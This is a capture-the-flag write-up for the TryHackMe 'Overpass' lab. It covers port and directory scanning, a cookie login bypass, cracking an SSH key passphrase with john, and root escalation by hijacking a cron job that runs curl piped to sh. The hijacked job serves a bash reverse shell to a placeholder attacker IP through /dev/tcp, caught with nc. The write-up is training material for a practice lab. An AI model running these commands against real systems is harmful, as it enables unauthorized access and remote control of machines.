 # Overpass (TryHackMe)

## Network Scan

First things first, I want to take a look at open ports on the machine.

```bash
sudo nmap -sV -vv <machine-ip>
```

![nmap](screenshots/2.png)

There are two open ports on the machine. And there is no valuable information. And I have decided to scan the website.

## Web Directory Scan

```bash
gobuster dir -u http://<machine-ip> -w /usr/share/wordlists/dirb/common.txt
```

![http](screenshots/4.png)

That's a BİNGO! I've found the /admin directory. And when I did look
at the page source and I noticed there is login.js. When I did take a look, I've found a login bypass vulnerability.

## Login Bypass

![login](screenshots/6.png)

The vulnerability allows for login bypass by creating a cookie
**"SessionToken"**. After that, when I get the /admin page. I am
encountering the **id_rsa key** and the name **james** on the page. I am using
ssh2john, crack the phrase for the id_rsa. And I login to SSH with the
username james.

## ID_RSA & SSH Login

```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt
```

![id_rsa](screenshots/8.png)

```bash
ssh james@machineIP -i id_rsa

```

## Privilege Escalation

And I find the user txt. And now we have to perform privilege
escalation to reach root flag. Firstly, I am trying to look at **_sudo
-l_**, but it does not seem like there is any significant. But when I
looking into **_/etc/crontab_** I found a job.

```bash
curl overpass.thm/downloads/src/buildscript.sh | sh
```

And we'll use this. And I decided to pretend like be overpassthm.

![fake](screenshots/3.png)

And I created the same directory in ***my local machine***. I create a
buildscriptsh that has reverse shell. I did edit ***my local /etc/hosts*** file to
make successful connection. And I start to listen to the connection.

```bash
nano buildscript.sh
```

```bash
#!/bin/bash
sh -i >& /dev/tcp/<your-machine-ip>/1234 0>&1
```

![build](screenshots/7.png)

```bash
sudo python3 -m http.server 80
```

![conn](screenshots/5.png)


```bash
nc -lvp 1234
```

![conn](screenshots/9.png)

